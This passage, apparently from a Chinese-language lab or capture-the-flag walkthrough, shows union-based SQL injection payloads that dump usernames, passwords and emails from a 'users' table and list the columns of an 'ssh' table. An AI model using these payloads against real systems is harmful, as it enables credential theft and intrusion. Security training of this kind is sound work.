 



#### 爆出users中的数据

获取到`username`和`password`看看，或者也可以再加上邮箱

```sql
id=-1' union select 1,2,3,4,group_concat(username,'||||',password,'|||||',eamil),6 from users--+
```

可以看到，这里给出一个用户名密码，而且就是登录网站时用到的

![](./pic-2/8-7.jpg)



#### 爆出ssh表中的元组

查看`ssh`表中的元组

```sql
id=-1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='ssh'--+
```

发现`user、pass、id`

![](./pic-2/8-8.jpg)
